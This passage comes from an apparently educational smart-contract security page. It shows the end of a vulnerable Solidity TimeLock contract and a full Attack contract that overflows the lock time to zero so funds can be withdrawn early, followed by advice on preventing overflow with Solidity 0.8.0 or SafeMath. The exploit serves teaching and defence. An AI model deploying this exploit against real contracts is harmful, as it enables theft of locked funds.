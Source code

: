     38        (bool sent, ) = msg.sender.call{value: amount}("");
    
    39        require(sent, "Failed to send Ether");
    
    40    }
    
    41}
    
    42
    
    43contract Attack {
    
    44    TimeLock timeLock;
    
    45
    
    46    constructor(TimeLock _timeLock) {
    
    47        timeLock = TimeLock(_timeLock);
    
    48    }
    
    49
    
    50    fallback() external payable {}
    
    51
    
    52    function attack() public payable {
    
    53        timeLock.deposit{value: msg.value}();
    
    54        /*
    
    55        if t = current lock time then we need to find x such that
    
    56        x + t = 2**256 = 0
    
    57        so x = -t
    
    58        2**256 = type(uint).max + 1
    
    59        so x = type(uint).max + 1 - t
    
    60        */
    
    61        timeLock.increaseLockTime(
    
    62            type(uint).max + 1 - timeLock.lockTime(address(this))
    
    63        );
    
    64        timeLock.withdraw();
    
    65    }
    
    66}
    
    Show all

##### How to prevent integer underflows and overflows

As of version 0.8.0, the Solidity compiler rejects code that results in
integer underflows and overflows. However, contracts compiled with a lower
compiler version should either perform checks on functions involving
arithmetic operations or use a library (e.g., [SafeMath(opens in a new
tab)](https://docs.openzeppelin.com/contracts/2.x/api/math)) that checks for
underflow/overflow.
